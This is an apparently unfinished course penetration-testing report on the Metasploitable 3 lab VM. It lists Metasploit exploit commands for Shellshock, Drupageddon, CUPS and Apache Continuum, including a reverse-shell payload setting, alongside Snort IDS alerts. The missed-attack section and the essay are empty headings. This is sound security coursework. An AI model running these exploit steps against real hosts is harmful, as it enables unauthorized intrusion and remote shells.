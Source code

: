 # Penetration Testing Report on Metasploitable 3 (Linux)

## Introduction

This report details the penetration testing performed on the [Metasploitable 3 (Linux)](https://github.com/rapid7/metasploitable3) operating system using [Metasploit](https://www.metasploit.com/). Five different attacks were carried out, with three being identifiable by the [Snort](https://www.snort.org/) Intrusion Detection System (IDS) and two going undetected. The report provides a brief description of each attack, including the targeted component, execution method, and Snort output for detected attacks. Additionally, it includes an essay on the benefits and shortcomings of using intrusion detection systems.



## IDENTIFIED ATTACK 1: Apache HTTP Server RCE

### Description

**Component Targeted:** Shellshock Bash Vulnerability / Apache web server with CGI scripts

**Execution Method:** This attack exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. It targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition. [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /cgi-bin/hello_world.sh`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2025869:2] ET WEB_SPECIFIC_APPS ELF file magic plain Inbound Web Servers Likely Command Execution 12 [**] [Classification: Attempted User Privilege Gain]          [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80      
[**] [1:1336:5] WEB-ATTACKS chmod command attempt [**]                                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                                            
[**] [1:100000122:1] COMMUNITY WEB-MISC mod_jrun overflow attempt [**]                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                            
[**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**]                                              [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:56643 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 2: Drupal Drupageddon

### Description

**Component Targeted:** Drupal Web Application

**Execution Method:** This attack exploits a remote code execution vulnerability in Drupal (versions 7.0 to 7.31), commonly referred to as "Drupageddon". The vulnerability allows an attacker to execute arbitrary PHP code on the web server by exploiting an SQL injection vulnerability in the Drupal HTTP Parameter Key/Value handling. [CVE-2014-3704](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/drupal_drupageddon`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /drupal/`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2012887:2] ET POLICY HTTP POST contains pass= in cleartext [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 172.28.128.1:58460 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 3: CUPS Filter Bash Environment Variable Code Injection (Shellshock)

### Description

**Component Targeted:** CUPS (Common UNIX Printing System)

**Execution Method:** This attack exploits a remote code execution vulnerability in the CUPS printing system by leveraging the Shellshock vulnerability in Bash. The vulnerability allows an attacker to inject and execute arbitrary code via manipulated environment variables passed to the CUPS filters.

**Preparation:** Before performing the attack, ensure the `vagrant` user is added to the `lpadmin` group on the Metasploitable box, as the exploit requires elevated privileges to execute properly.
```
usermod -a -G lpadmin vagrant
```

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/cups_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the CUPS username: `set HttpUsername vagrant`
4. Set the CUPS password: `set HttpPassword vagrant`
5. Set the payload to use a reverse TCP connection: `set PAYLOAD cmd/unix/reverse_ruby`
6. Configure the local host IP for the payload: `set LHOST  <listen_ip>`
7. Execute the attack: `run`

**Snort Output:**
```
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58859 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58862 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631 
```



## MISSED ATTACK 1: Apache Continuum Arbitrary Command Execution

### Description

**Component Targeted:** Apache Continuum

**Execution Method:** By injecting a command into the installation.varValue POST parameter to /continuum/saveInstallation.action, a shell can be spawned.

**Steps in Metasploit:**
1. Select the exploit: `use linux/http/apache_continuum_cmd_exec`
2. Set the target IP: `set RHOSTS <target_ip>`
3. Execute the attack: `run`

**Reason for Missing:** Snort missed this attack because `rules/policy-other.rules` was not in use. (as per the [snort.conf](https://cybersecuritybase.mooc.fi/19231e84dafffa079550777b17d8fb3e/snort.conf) provided by the course)
Only thing Snort notice was:
```
[**] [1:620:10] SCAN Proxy Port 8080 attempt [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.28.128.1:58585 -> 172.28.128.3:8080
```
which is a port scan notification (same you would get for using `nmap`) and by the instructions of the course __"[...] does *not* count as an attack"__.


## MISSED ATTACK 2:
**description**

## ESSAY: The benefits and shortcomings of using intrusion detection systems
